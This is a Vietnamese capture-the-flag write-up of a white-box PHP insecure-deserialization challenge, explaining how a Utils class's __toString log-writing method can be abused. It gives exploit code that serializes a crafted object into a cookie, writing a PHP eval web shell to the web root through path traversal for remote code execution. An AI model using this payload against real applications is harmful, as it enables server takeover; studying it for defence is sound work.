



xin chào các bạn lại thêm 1 bài nữa sau khi kết thúc đợt tuyển mình đã học được thêm dạng này trên portswigger:<

Bài này là dạng white-box src file là php dạng deseria vul nha

src của file untils:  

Như đánh giá thì bạn thấy được file này có class Untils
khởi tạo 2 giá trị private là $error và $logfile
ban đầu thì gán $this->logfile = "_error.log";

Trong này có hàm magic của hay gặp trong unserial là 
__toString() sẽ gọi phương thức writelog
hàm này sẽ chạy khi mà có một đối tượng nào đó biến thành string và cụ thể là ở trong file index.php

+file writelog() sẽ thêm nội dung của $this->error vào file "/tmp/logs/".date('H_i_s').$this->logfile"

có vẻ như là vấn đề đã ở đây ở đây 
lướt qua file trainer.php

hàm này sẽ khởi tạo các giá trị và các phương thức để lấy giá trị xuất ra từ cookie thông qua xử lý

file index.php 

khi thực hiện method POST từ form sẽ tạo một đối tượng
   $user = new Trainer($name, $starter);
mình sẽ khai thác ở đây vì đây là giá trị mình có thể kiểm soát được

trong file cham.php chú ú một đoạn đã nhắc ở trên và

có tác dụng sẽ khi nội dung vào file log

đầu tiên thì khi đổi giá trị isChampion thành 1
thì ta đươc fake-flag

ý tưởng :
    bây giờ sẽ tạo một class Trainer
class Trainer {
    public $name;
    public $starter;
    public $isChampion = 1;
}
và một class Utils vì trong kia fix cứng nên mình sẽ phải thay đổi giá trị của $error và $logfile 
class Utils {
    private $error="<?php eval(\$_GET['cmd']); ?>";
    private $logfile="../../../../../var/www/html/nono.php";

} 

$trainer = new Trainer();
$util = new Utils();
$trainer->name=$util;
$serializedUser = serialize($user);
$base64encod = base64_encode($serializedUser)

Sau đó bạn gắn vào cookie và truy cập vào file nono.php đển remote code nha

Giai thích như sau:

đầu tiên thì gắn cookie vào thi sever nhận và decodeb64 ra sau đó thì unserialize
sẽ tạo ra một object và name thì có dạng: là một object của Utils sever lúc này sẽ ngộ nhận rằng đó là Utils đã định nghĩa và khi này dùng hàm encapse sẽ covert name sang string và thực thi phương thức write_log của Utils
sẽ ghi giá trị của error và0 logfile
class Utils {
    private $error="<?php eval(\$_GET['cmd']); ?>";
    private $logfile="../../../../../var/www/html/nono.php";

} 
Vì eval cũng là một hàm nhạy cảm cho nên sẽ biến đổi nó thành 1 lệnh hay một dòng code ví dụ:
eval("echo "hello";") sẽ in ra hello
và như này ta có hẳn 1 route_page để RCE
